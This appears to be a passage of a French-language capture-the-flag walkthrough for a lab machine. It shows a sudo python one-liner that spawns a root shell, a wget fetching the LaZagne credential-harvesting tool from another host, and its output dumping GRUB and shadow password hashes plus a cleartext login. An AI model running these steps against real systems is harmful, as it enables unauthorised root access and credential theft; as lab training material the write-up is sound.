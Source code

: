 ```
shrek@ubuntu:~$ sudo python3.5 -c 'import os; os.system("/bin/sh")'
# bash -i
root@ubuntu:~# 
```

&nbsp;

**<span style="color: #dddddd;">👾</span>** LaZagne

Téléchargement de laZagne

```
root@ubuntu:~# wget 192.168.56.104:8080/LaZagne-2.4.6.zip
--2025-02-10 17:37:31--  http://192.168.56.104:8080/LaZagne-2.4.6.zip
Connecting to 192.168.56.104:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 705000 (688K) [application/zip]
Saving to: 'LaZagne-2.4.6.zip'

LaZagne-2.4.6.zip                               100%[=====================================================================================================>] 688.48K  --.-KB/s    in 0.005s  

2025-02-10 17:37:31 (124 MB/s) - 'LaZagne-2.4.6.zip' saved [705000/705000]
```

&nbsp;

Unzip

```
root@ubuntu:~# python3.5 -c "
> import zipfile
> with zipfile.ZipFile('/home/shrek/LaZagne-2.4.6.zip', 'r') as zip_ref:
>     zip_ref.extractall('/home/shrek/')
> "
```

&nbsp;

Exécution

```
root@ubuntu:~/LaZagne-2.4.6/Linux# python3.5 laZagne.py all

|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|

------------------- Grub passwords -----------------

[+] Hash found !!!
Hash: $1$gLhU0/$aW78kHK1QfV3P2b2znUoe/

------------------- Shadow passwords -----------------

[+] Password found !!!
Login: ftp
Password: ftp

[+] Hash found !!!
Hash: $6$nAQJF5g.$3upB766t4FZNg6A8pIBgwuY9Vf/172XbRYNglzIRsFh28mLLJksmvcr6cHdP4wC2HwAcXnBlCf0cZfJFgdlYd.:18591:0:99999:7:::
Login: shrek

```